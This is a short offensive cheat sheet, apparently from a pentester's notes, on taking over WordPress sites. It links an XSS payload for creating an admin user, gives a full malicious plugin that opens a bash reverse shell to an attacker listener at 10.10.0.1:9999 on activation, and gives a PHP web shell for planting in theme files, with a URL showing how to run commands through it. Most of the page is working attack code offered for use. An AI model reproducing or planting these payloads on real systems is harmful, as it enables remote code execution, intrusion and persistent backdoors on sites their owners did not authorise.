 # Wordpress

Some useful XSS for Wordpress content:\
[https://shift8web.ca/2018/01/craft-xss-payload-create-admin-user-in-wordpress-user/](https://shift8web.ca/2018/01/craft-xss-payload-create-admin-user-in-wordpress-user/)

If you have admin credentials to the wordpress CMS you can craft a plugin containing the reverse shell one liner. Set up the listener and 'Activate plugin' in Wordpress to initiate the reverse shell.

```php
<?php

/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Kimi
* Author URI: http://www.nowhere.com
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.0.1/9999 0>&1'");
?>
```

You can also edit existing theme files and upload a web-shell:

```php
<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>
```

After that navigate to the theme URL page:

```
http://somesite.com/wp-content/THEME_NAME/FILE_NAME.php?cmd=whoami
```
